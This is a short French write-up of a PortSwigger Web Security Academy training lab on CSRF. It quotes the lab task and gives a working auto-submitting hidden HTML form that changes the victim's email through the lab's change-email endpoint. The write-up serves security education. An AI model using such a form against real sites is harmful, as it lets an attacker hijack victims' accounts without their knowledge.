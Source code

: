 # [CSRF vulnerability with no defenses](https://portswigger.net/web-security/csrf/lab-no-defenses)
> Difficulté : Apprentice


## Enoncé :

*This lab's email change functionality is vulnerable to CSRF.
To solve the lab, craft some HTML that uses a CSRF attack to change the viewer's email address and upload it to your exploit server.
You can log in to your own account using the following credentials: wiener:peter*

<details>
<summary>Hint</summary>
You cannot register an email address that is already taken by another user. If you change your own email address while testing your exploit, make sure you use a different email address for the final exploit you deliver to the victim.
</details>

## Solution

Nous cherchons à créer un payload réalisant, depuis la session victime, un changement de mail de notre choix.
En utilisant le cours, nous pouvons assez aisément construire le payload suivant, que nous allons mettre dans le Body de notre espace dans le lab avant de "Deliver exploit to victim".
```
<form method="POST" action="https://<lab_id>.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="t@t.com">
</form>
<script>
    document.forms[0].submit();
</script>
```
